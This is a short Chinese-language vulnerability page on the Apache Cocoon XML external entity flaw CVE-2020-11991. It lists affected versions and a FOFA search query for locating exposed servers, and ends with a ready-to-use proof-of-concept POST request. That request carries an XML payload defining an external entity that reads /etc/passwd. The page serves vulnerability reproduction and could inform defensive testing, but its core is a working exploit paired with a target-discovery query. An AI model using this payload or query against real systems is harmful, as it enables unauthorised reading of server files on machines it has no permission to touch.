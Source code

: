 ```yaml
---
Title: Apache Cocoon XML注入 CVE-2020-11991
---
```


# Apache Cocoon XML注入 CVE-2020-11991

 

## 漏洞描述 

9月11日 Apache 软件基金会发布安全公告，修复了 Apache Cocoon xml外部实体注入漏洞（CVE-2020-11991）。

Apache Cocoon 是一个基于 Spring 框架的围绕分离理念建立的构架，在这种框架下的所有处理都被预先定义好的处理组件线性连接起来，能够将输入和产生的输出按照流水线顺序处理。用户群：Apache Lenya、Daisy CMS、Hippo CMS、Mindquarry等等，Apache Cocoon 通常被作为一个数据抽取、转换、加载工具或者是系统之间传输数据的中转站。CVE-2020-11991 与 StreamGenerator 有关，在使用 StreamGenerator 时，代码将解析用户提供的 xml。攻击者可以使用包括外部系统实体在内的特制 xml 来访问服务器系统上的任何文件。

 

##  影响版本 

<a-checkbox checked>Apache Cocoon <= 2.1.12</a-checkbox></br>

 

## 网络测绘 

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUtQ29jb29uIg%3D%3D">app="Apache-Cocoon"</a-button>
</a-checkbox>

## 漏洞复现 

验证POC

```xml
POST /v2/api/product/manger/getInfo 

<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
<firstName>John</firstName> 
<lastName>&ent;</lastName>
</userInfo>
```



